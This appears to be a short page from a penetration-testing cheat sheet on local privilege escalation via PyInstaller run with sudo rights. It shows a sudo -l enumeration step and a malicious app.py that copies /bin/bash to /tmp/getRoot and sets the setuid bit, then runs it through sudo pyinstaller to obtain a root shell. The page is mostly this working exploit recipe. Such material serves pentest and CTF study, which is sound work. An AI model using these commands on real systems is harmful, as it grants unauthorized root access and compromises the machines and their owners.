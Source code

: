 # PyInstaller Code Execution

## Theory 

PyInstaller bundles a Python application and all its dependencies into a single package. We can use it to execute arbitrary code.

## Practice 

{% tabs %}
{% tab title="Enumerate" %}
Assume that `pyinstaller` can be executed as root with sudo rights. if we controll its input, then its vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /home/svc/.local/bin/pyinstaller *
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious python script 
```python
#app.py
import os 
os.system("cp /bin/bash /tmp/getRoot")
os.system("chmod +s /tmp/getRoot")
```

Run it
```bash
sudo /home/svc/.local/bin/pyinstaller app.py
```
{% endtab %}
{% endtabs %}